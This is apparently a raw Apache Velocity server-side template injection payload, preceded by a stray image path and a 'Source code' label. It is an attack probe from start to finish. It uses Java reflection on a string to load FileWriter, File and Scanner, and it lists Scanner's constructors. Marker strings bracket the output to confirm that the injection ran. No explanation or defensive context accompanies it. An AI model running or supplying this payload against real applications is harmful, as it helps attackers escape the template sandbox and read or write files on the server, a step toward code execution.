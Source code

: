 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
$a
#set ($ab=$e.getClass().forName("java.io.File"))
$ab
#set($sc = $e.getClass().forName("java.util.Scanner"))
$sc
#set($str=$class.inspect("java.lang.String").type)
$str
#set($constructors = $sc.getDeclaredConstructors($e.getClass().forName("java.io.FileWriter")))
$constructors
$monkey
